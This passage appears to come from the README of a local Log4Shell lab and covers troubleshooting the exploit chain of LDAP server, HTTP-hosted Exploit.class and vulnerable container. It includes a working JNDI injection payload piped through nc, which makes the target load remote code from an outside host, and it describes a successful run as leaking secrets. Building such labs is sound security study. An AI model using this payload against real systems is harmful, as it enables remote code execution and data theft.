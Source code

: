Commands are nearly identical - just replace `docker` with `podman`.

## Troubleshooting

### "Exploit file not found" Error

If `make verify` shows "Exploit file not found - exploit may have failed", check these common issues:

1. **Timing Issue**: The exploit needs time to execute. The Makefile includes a 3-second wait, but you can wait a bit longer and run `make verify` again.

2. **Check if servers are running**:
   ```bash
   # Check HTTP server (port 8888)
   curl -I http://localhost:8888/Exploit.class

   # Check LDAP server (port 1389)
   ss -ltn | grep 1389

   # Check vulnerable server (port 8080)
   ss -ltn | grep 8080
   ```

3. **View server logs**:
   ```bash
   # Check LDAP server logs for connections
   cat logs/ldap-server.log

   # Check HTTP server logs for downloads
   cat logs/http-server.log

   # Check vulnerable app logs
   podman logs $(podman ps -q --filter ancestor=log4jcve)
   ```

4. **Verify IP address**: Make sure `HOST_IP` matches your actual network IP:
   ```bash
   hostname -I | awk '{print $1}'
   ```

5. **Test manually**: Send the payload directly and check container logs:
   ```bash
   echo '${jndi:ldap://192.168.1.100:1389/Exploit}' | nc localhost 8080
   sleep 5
   podman logs --tail 20 $(podman ps -q --filter ancestor=log4jcve)
   ```

### Successful Exploit Indicators

When the exploit works, you'll see:

- **LDAP server log**: Shows incoming connection and sending reference
- **HTTP server log**: Shows GET request for `Exploit.class`
- **Container logs**: Shows the exploit banner and command execution
- **Verify command**: Displays the full exploit output with secrets, network info, etc.
